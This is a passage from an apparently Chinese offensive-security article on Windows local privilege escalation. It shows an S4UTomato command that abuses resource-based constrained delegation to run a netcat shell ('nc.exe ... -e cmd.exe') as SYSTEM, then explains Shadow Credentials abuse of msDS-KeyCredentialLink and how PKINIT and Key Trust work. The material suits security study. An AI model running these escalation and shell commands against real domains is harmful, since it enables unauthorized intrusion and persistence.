 得到服务票据后，通过 SCMUACBypass 访问 Service Control Manager（SCM）创建系统服务，从而获取 SYSTEM 权限，执行效果如下所示。

```console
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-a233e72604b097bdc278aae2b41da5fb1a782b95.gif)

Shadow Credentials
------------------

在 [Black Hat Europe 2019](https://www.dsinternals.com/wp-content/uploads/eu-19-Grafnetter-Exploiting-Windows-Hello-for-Business.pdf) 大会期间，Michael Grafnetter（[@MGrafnetter](https://twitter.com/MGrafnetter)）讨论了针对 Windows Hello for Business 技术的多种攻击方法，其中包括域持久化技术。该技术涉及修改目标计算机账户或用户帐户的 `msDS-KeyCredentialLink` 属性，以获得用于检索 NTLM 哈希值和请求 TGT 票据。即使目标帐户的密码被修改后，该属性也不会受到影响，因此，攻击者可以使用该技术完美的实现域持久性。

与设置 `msDS-AllowedToActOnBehalfOfOtherIdentity` 相似，计算机账户对自身的 `msDS-KeyCredentialLink` 属性拥有 WriteProperty 权限。我们可以在服务帐户的上下文中连接到活动目录，为当前计算机对象的 `msDS-KeyCredentialLink` 属性写入一个新的 `Key Credential` 以请求 TGT 票据，并最终通过 S4U2Self 提升至 SYSTEM 权限。

### What is PKINIT ?

PKINIT 是 Kerberos 协议的扩展协议，允许在身份验证阶段使用数字证书。这种技术可以用智能卡或 USB 类型的身份验证代替基于密码的身份验证。PKINIT 协议允许在 Kerberos 协议的初始（预）身份验证交换中使用公钥加密，通过使用公钥加密来保护初始身份验证，Kerberos 协议得到了显着增强，并且可以与现有的公钥身份验证机制（例如智能卡）一起使用。

在传统的 Kerberos 身份验证中，客户端必须在 KDC 为其提 TGT 票据之前执行 “预身份验证”，该票证随后可用于获取服务票证。客户端使用其凭据加密时间戳来执行预身份验证，以向 KDC 证明他们拥有该帐户的凭据。使用时间戳而不是静态值有助于防止重放攻击。

对称密钥方法是使用最广泛和已知的一种方法，它使用从客户端密码派生的对称密钥（AKA 密钥）。如果使用 RC4 加密，此密钥将是客户端密码的哈希值。KDC 拥有客户端密钥的副本，并且可以解密预身份验证的数据以对客户端进行认证。KDC 使用相同的密钥来加密与 TGT 一起发送给客户端的会话密钥。

![img](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-52dd159df4c4bf34e0e10671ad70f5a2eb770574.png)

PKINIT 是不太常见的非对称密钥方法。客户端有一个公/私密钥对，并用他们的私钥对预验证数据进行加密，KDC 用客户端的公钥对其进行解密。KDC 还有一个公/私密钥对，允许使用以下两种方法之一交换会话密钥：

1. **Diffie-Hellman Key Delivery**
    
    该方法允许 KDC 和客户端安全地建立共享会话密钥，即使攻击者拥有客户端或 KDC 的私钥。会话密钥将存储在 TGT 的加密部分，它是用 Krbtgt 帐户的密钥（哈希）加密的。
2. **Public Key Encryption Key Delivery**
    
    该方法使用 KDC 的私钥和客户端的公钥来封装由 KDC 生成的会话密钥。

传统上，公钥基础设施（PKI）允许 KDC 和客户端使用由双方先前已与证书颁发机构（CA）建立信任的实体签署的数字证书以交换他们的公钥。这是证书信任（Certificate Trust）模型，最常用于智能卡身份验证。

![img](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-4efc5f6e5ab6848a2f4e7840cead6cc19e5c765a.png)

Microsoft 还引入了密钥信任（Key Trust）的概念，以在不支持 Certificate Trust 的环境中支持无密码身份验证。在 Key Trust 模型下，PKINIT 身份验证是基于原始密钥数据而不是证书建立的。

客户端的公钥存储在一个名为 `msDS-KeyCredentialLink` 的多值属性中，该属性在 Windows Server 2016 中引入。该属性的值是 Key Credentials，它是包含创建日期、所有者可分辨名称等信息的序列化对象，一个代表设备 ID 的 GUID，当然还有公钥。

当客户端登录时，Windows 会尝试使用其私钥执行 PKINIT 身份验证。在 Key Trust 模型下，域控制器可以使用存储在客户端 `msDS-KeyCredentialLink` 属性中的原始公钥解密其预身份验证数据。

![img](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-15b27af1f6a29a540f56e48f90ae5d951c939c45.png)
